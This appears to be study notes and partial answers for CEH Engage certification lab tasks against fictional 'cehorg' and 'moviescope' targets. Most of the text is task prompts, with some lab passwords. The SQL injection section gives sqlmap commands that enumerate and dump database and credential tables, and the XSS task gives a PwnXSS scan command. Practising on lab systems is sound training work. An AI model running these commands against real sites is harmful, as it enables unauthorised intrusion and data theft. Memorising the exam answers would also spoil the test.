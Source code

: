 Perform Banner grabbing on the web application movies.cehorg.com and find out the ETag of the respective target machine.
 
Perform Web Crawling on the web application movies.cehorg.com and identify the number of live png files in images folder.
 
Perform XSS vulnerability test on www.cehorg.com and identify whether the application is vulnerable to attack or not. (Yes/No).
-> No
PwnXSS
python3 pwnxss.py -u http://www.cehorg.com
OWASP ZAP
 
Perform a SQL Injection attack on movies.cehorg.com and find out the number of users available in the database. Use Jason/welcome as login credentials.
Get Database
sqlmap -u "http://sometestdb.to/view?id=123&Submit=Submit#" --cookie="PHPSESSID=e3f9231953973ace4acb63cfde2ccc08; security=low" --dbs
Get Tables
sqlmap -u "http://sometestdb.to/view?id=123&Submit=Submit#" --cookie="PHPSESSID=e3f9231953973ace4acb63cfde2ccc08; security=low" -D moviescope --tables
Get number of Users available
sqlmap -u "http://sometestdb.to/view?id=123&Submit=Submit#" --cookie="PHPSESSID=e3f9231953973ace4acb63cfde2ccc08; security=low" -D moviescope -T UserProfile --count
Dump Table Data
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="<Cookie Value>" -D moviescope -T User_Login --dump
Dump Databases
sqlmap -u "http://sometestdb.to/view?id=123&Submit=Submit#" --cookie="PHPSESSID=e3f9231953973ace4acb63cfde2ccc08; security=low" -D moviescope --dump-all
 
 
 
CEHORG suspects of a possible session hijacking attack on a machine in its network. The organisation has retained the network traffic data for the session at C:\Users\Admin\Documents in the EH Workstation – 2 as sniffsession.pcap. You have been assigned a task to perform an analysis and find out the protocol that has been used for sniffing on its network.
 


CEH Engage Part 4
An attacker has intruded into the CEHORG network with malicious intent. He has identified a vulnerability in a machine. He has encoded the machine's IP address and left it in the database. While auditing the database, the encoded file was identified by the database admin. Decode the EncodedFile.txt file in the Document folder in the "EH Workstation – 2" machine and enter the IP address as the answer. (Hint: Password to decode the file is Pa$$w0rd)
 
The Access code of an employee was stolen from the CEHORG database. The attacker has encrypted the file using the Advance Encryption Package. You have been assigned a task to decrypt the file; the organization has retained the cipher file ""AccessCode.docx.aes"" in the Document folder in the ""EH Workstation – 2"" machine. Determine the access code by decrypting the file. Hint: Use ""qwerty"" as the decryption password. Note: Advanced Encryption Package is available at E:\CEH-Tools\CEHv12 Module 20 Cryptography\Cryptography Tools.
 
 
 
A VeraCrypt volume file "secret" is stored on the Document folder in the "EH Workstation – 2" machine. You are an ethical hacker working with CEHORG; you have been tasked to decrypt the encrypted volume and determine the number of files stored in the volume. (Hint: Password: test)
 